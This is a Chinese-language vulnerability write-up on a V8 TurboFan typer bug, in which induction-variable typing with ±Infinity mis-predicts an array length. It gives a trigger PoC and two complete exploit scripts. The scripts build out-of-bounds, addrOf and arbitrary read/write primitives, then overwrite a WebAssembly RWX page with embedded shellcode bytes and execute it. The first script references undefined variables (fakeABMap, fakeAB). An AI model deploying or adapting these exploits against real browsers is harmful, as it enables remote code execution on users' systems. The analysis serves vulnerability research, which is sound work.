

我们直接结合poc来一起分析：

```
function trigger() {
  var x = -Infinity;
  var k = 0;
  for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }

      if (++k > 10) {
        break;
      }
  }

  var value = Math.max(i, 1024); //实际：NaN ，推测值：(1024,inf)
  value = -value; //实际值：NaN，推测值：(-inf,-1024)
  value = Math.max(value, -1025);//实际值：-2147483648，推测值：(-1025,-1024)
  value = -value;//实际值：-2147483648，推测值：(1024,1025)
  value -= 1022;//实际值：-2147484670，推测值：(2,3)
  value >>= 1; //实际值：1073741313，推测值：(1,1)
  value += 10; //实际值：1073741323，推测值：(11,11)
  var array = Array(value);
  array[0] = 1.1;
  return array;
};
```

首先我们分析下面的循环
```
for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }
```

我们循环中的x就是下面代码中的increment，i是InductionVariable。

```
Type Typer::Visitor::TypeInductionVariablePhi(Node* node) {
[...]
  const bool both_types_integer = initial_type.Is(typer_->cache_->kInteger) &&
                                  increment_type.Is(typer_->cache_->kInteger);
  bool maybe_nan = false;
  // The addition or subtraction could still produce a NaN, if the integer
  // ranges touch infinity.
  if (both_types_integer) {
    Type resultant_type =
        (arithmetic_type == InductionVariable::ArithmeticType::kAddition)
            ? typer_->operation_typer()->NumberAdd(initial_type, increment_type)
            : typer_->operation_typer()->NumberSubtract(initial_type,
                                                        increment_type);
    maybe_nan = resultant_type.Maybe(Type::NaN()); // *** 1 ***
  }

  if (!both_types_integer || maybe_nan) {
    // Fallback to normal phi typing, but ensure monotonicity.
    // (Unfortunately, without baking in the previous type, monotonicity might
    // be violated because we might not yet have retyped the incrementing
    // operation even though the increment's type might been already reflected
    // in the induction variable phi.)
    Type type = NodeProperties::IsTyped(node) ? NodeProperties::GetType(node)
                                              : Type::None();
    for (int i = 0; i < arity; ++i) {
      type = Type::Union(type, Operand(node, i), zone());
    }
    return type;
  }

[...]
```
因为我们的i初值为0，x初值为负无穷都满足typer\_->cache_->kInteger类型，所以会通过if (both_types_integer)判断，并且\*\*1**处也不会被判断为NAN。


重点来了：
i执行的操作是+=，满足条件arithmetic_type == InductionVariable::ArithmeticType::kAddition，因此，increment_min等于-inf，而increment_max等于inf，那么就直接进入下面的else分支，返回typer\_->cache_->kInteger;类型，也就是\*\*2**处的内容
```
  if (arithmetic_type == InductionVariable::ArithmeticType::kAddition) {
    increment_min = increment_type.Min();
    increment_max = increment_type.Max();
  } else {
    DCHECK_EQ(InductionVariable::ArithmeticType::kSubtraction, arithmetic_type);
    increment_min = -increment_type.Max();
    increment_max = -increment_type.Min();
  }

  if (increment_min >= 0) {
[...]
  } else if (increment_max <= 0) {
[...]
  } else {
    // Shortcut: If the increment can be both positive and negative,
    // the variable can go arbitrarily far, so just return integer.
    return typer_->cache_->kInteger; // *** 2 ***
  }
```

最终会导致turbofan认为poc里的这个循环，i最终类型为typer\_->cache_->kInteger;，然而，在实际的普通js层，测试发现，i最终类型为NaN

```js
  var value = Math.max(i, 1024);
  //console.log("value0 "+value);
  value = -value;
  //console.log("value1 "+value);
  value = Math.max(value, -1025);
  //console.log("value2 "+value);
  value = -value;
  //console.log("value3 "+value);
```


value0 NaN
value1 NaN
value2 -2147483648
value3 -2147483648
  
``` js 
  value -= 1022;
  value >>= 1; 
  value += 10; 
```

实际长度：1073741323
v8以为的长度：11

## exp

exp写法就很常规了：
```
const MAX_ITERATIONS = 100000*8;
const maxSize = 1028*30;

const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{ 
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
// 64-bit unsigned integer to Floating point
function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}
// 64-bit unsigned integer to hex
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

function success_value(msg, value) {
    console.log("[+] "+msg+hex(value));
}

function d2u(num1,num2){ // uint32*2 --> float64
    d = new Uint32Array(2);
    d[0] = num2;
    d[1] = num1;
    f = new Float64Array(d.buffer);
    return f[0];
}

function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                console.log(index);
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
}

function gc()
{
    for(let i=0;i<0x10;i++)
    {
        new Array(0x1000000);
    }
}

var a = (function (value) {
    if (value) {
        console.log('hello');
    }
});

var oobArray = undefined;
var objArray = undefined;
var dataBuf = undefined;

function trigger() {
  var x = -Infinity;
  var k = 0;
  for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }

      if (++k > 10) {
        break;
      }
  }

  var value = Math.max(i, 1024);
  value = -value;
  value = Math.max(value, -1025);
  value = -value;
  value -= 1022;
  value >>= 1; // *** 3 ***
  value += 10; //
  var array = Array(value);
  array[0] = 1.1;
  return array;
};

for (let i = 0; i < 20000; ++i) {
  trigger();
  objArray = {m:i2f(0xdeadbeef), target:a};
}

oobArray = trigger();
objArray = {m:i2f(0xdeadbeef), target:a};
var ab = new ArrayBuffer(0x200);
gc();gc();gc();

//object element offest
var ObjectIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0xdeadbeef) {
        ObjectIdx = i + 1;
        console.log('obj' + ObjectIdx);
        break;
    }
} 
//object bk offest
var ArrayBufIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0x234) {
        //0x0000023400000000
        ArrayBufIdx = i + 1;
        console.log('bk' + ArrayBufIdx);
        break;
    }
}
//%SystemBreak();

// build addrOf primitive 
function addrOf(objPara)
{
    objArray.target=objPara;
    return f2i(oobArray[ObjectIdx]);
}

var abMapProtoAddr = addrOf(ab.__proto__);
var abMapConstructAddr = abMapProtoAddr - 0x70;
print("[+] ArrayBuffer Map prototype addr: 0x"+hex(abMapProtoAddr -1));
print("[+] ArrayBuffer Map Constructor addr: 0x"+hex(abMapConstructAddr-1));
fakeABMap[3] = i2f(abMapProtoAddr);
fakeABMap[4] = i2f(abMapConstructAddr);
//%DebugPrint(fakeAB);
//%SystemBreak();

var fakeABMapAddr = addrOf(fakeABMap) + 0x30; // elements addr of fakeABMap
print("[+] fake ArrayBuffer Map addr: 0x"+hex(fakeABMapAddr-1));
//%DebugPrint(fakeAB);
//%SystemBreak();
fakeAB[0] = i2f(fakeABMapAddr);


var fakeABAddr = addrOf(fakeAB) + 0x30 ; // elements addr of fakeAB
print ("[+] fake ArrayBuffer addr: 0x"+hex(fakeABAddr - 1));
//%SystemBreak();

oobArray[ObjectIdx] = i2f(fakeABAddr);
var fakeABObj=objArray.target;
//%DebugPrint(fakeABObj);
//%SystemBreak();
var dataView = new DataView(fakeABObj);
// aar primitive
function dataViewRead64(addr)
{

    fakeAB[4] = addr; // overwrite fakeAB[4], which is corresponding to backing store pointer
    return f2i(dataView.getFloat64(0, true));
}

// aaw primitive
function dataViewWrite(addr, payload)
{

    fakeAB[4] = addr;

    for (let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
    return ;
}

func = wasm_func();

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(i2f(wasmObjAddr+0x18-1));
var wasmExportedFunctionDataAddr = dataViewRead64(i2f(sharedInfoAddr+8-1));
var instanceAddr = dataViewRead64(i2f(wasmExportedFunctionDataAddr+0x10-1));
var rwxAddr = dataViewRead64(i2f(instanceAddr+0xe0-1));

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr+0x12));


var shellcode=[72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
dataViewWrite(i2f(rwxAddr+0x12), shellcode);

func();
```


或


```
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{ 
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
// 64-bit unsigned integer to Floating point
function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}

const MAX_ITERATIONS = 100000*8;
const maxSize = 1028*30;

// 64-bit unsigned integer to hex
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

function success_value(msg, value) {
    console.log("[+] "+msg+hex(value));
}

function hexdump(array) {
    output = '';
    for(i=0;i<=50;i++)
    {
        if(i%2==0)
            output+='\n'+hex(i*0x8)+':     ';
        output+='0x'+hex(f2i(array[i]));
        output+='    '
    }
    console.log(output);
}

function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                console.log(index);
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
}

function gc()
{
    for(let i=0;i<0x10;i++)
    {
        new Array(0x1000000);
    }
}

var a = (function (value) {
    if (value) {
        console.log('hello');
    }
});

var oobArray = undefined;
var objArray = undefined;
var dataBuf = undefined;

function trigger() {
  var x = -Infinity;
  var k = 0;
  for (var i = 0; i < 1; i += x) {
      if (i == -Infinity) {
        x = +Infinity;
      }

      if (++k > 10) {
        break;
      }
  }

  var value = Math.max(i, 1024);
  value = -value;
  value = Math.max(value, -1025);
  value = -value;
  value -= 1022;
  value >>= 1; // *** 3 ***
  value += 10; //
  var array = Array(value);
  array[0] = 1.1;
  return array;
};

for (let i = 0; i < 20000; ++i) {
  trigger();
}

oobArray = trigger();
objArray = {m:i2f(0xdeadbeef), target:a};
dataBuf = new ArrayBuffer(0x234);

gc();gc();gc();

//object element offest
var ObjectIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0xdeadbeef) {
        ObjectIdx = i + 1;
        console.log('obj' + ObjectIdx);
        break;
    }
} 
//object bk offest
var ArrayBufIdx = 0;

for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0x0000023400000000) {
        ArrayBufIdx = i + 1;
        console.log('bk' + ArrayBufIdx);
        break;
    }
}

//hexdump(oobArray);
//%SystemBreak();

var dataView = new DataView(dataBuf);

// build addrOf primitive 
function addrOf(objPara)
{
    objArray.target=objPara;
    return f2i(oobArray[ObjectIdx]) - 1;
}

//%SystemBreak();

// build aar primitive
function dataViewRead64(addr)
{
    oobArray[ArrayBufIdx]=i2f(addr);
    //%DebugPrint(dataBuf);
    //%SystemBreak();
    return f2i(dataView.getFloat64(0, true));
}

// build aaw primitive
function dataViewWrite64(addr, value)
{
    oobArray[ArrayBufIdx] = i2f(addr);
    return dataView.setFloat64(0, f2i(value), True);
}

function dataViewWrite(addr, payload)
{
    oobArray[ArrayBufIdx] = i2f(addr);
    for(let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
    return ;
}

func = wasm_func();

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe0)+0x12;

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));
//%SystemBreak();

//write shellcode to jit code
//dataViewWrite32(rwxAddr, shellcode);

var shellcode=[72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
dataViewWrite(rwxAddr, shellcode);

func();
```